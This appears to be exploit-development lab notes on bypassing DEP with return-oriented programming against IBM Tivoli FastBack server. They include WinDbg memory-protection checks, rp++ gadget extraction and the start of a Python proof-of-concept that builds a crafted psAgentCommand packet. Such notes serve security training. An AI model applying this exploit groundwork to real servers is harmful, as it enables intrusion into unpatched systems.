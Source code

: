 Check for memory protections:
	!vprot eip
	
Above shows page_execute_read which means it is executable and readable, run this on esp:
	!vprot esp
	
We see page_readwrite which means it is only writable and readable

Checking for DEP with narly which it checks the PE header for
	.load narly
	!nmod
	
Now we will use a dummy nop values in the stack 
	ed esp 90909090
	r eip = esp
	r
	p
	
And we can see an access violation 

Return Oriented Programming
The first gadget in the figure above pops a value from the stack into ECX. The return instruction makes it execute the next gadget, which in turn pops a value from the stack into EAX.

Executing the next return instruction will bring us to the third gadget. This gadget will write the contents of EAX to the memory address stored in ECX. This concept allows us to write arbitrary content to an arbitrary memory address.

The stack layout to accomplish this is illustrated in Figure 6.

Because of the variable length of assembly instructions on the x86 architecture, returning into the middle of existing opcodes can lead to different instructions, as shown in Listing 7.


Gadget Selection

Using rp++ 
Once the execution completes, we can open the output file and inspect the syntax of the located gadgets.


	copy "C:\Program Files\Tivoli\TSM\FastBack\server\FastBackServer.exe" .
	
	rp-win-x86.exe -f FastBackServer.exe -r 5 > rop.txt
	
Poc code we will use:
	import socket
	import sys
	from struct import pack
	
	# psAgentCommand
	buf = bytearray([0x41]*0xC)
	buf += pack("<i", 0x534)  # opcode
	buf += pack("<i", 0x0)    # 1st memcpy: offset
	buf += pack("<i", 0x500)  # 1st memcpy: size field
	buf += pack("<i", 0x0)    # 2nd memcpy: offset
	buf += pack("<i", 0x100)  # 2nd memcpy: size field
	buf += pack("<i", 0x0)    # 3rd memcpy: offset
	buf += pack("<i", 0x100)  # 3rd memcpy: size field
	buf += bytearray([0x41]*0x8)
	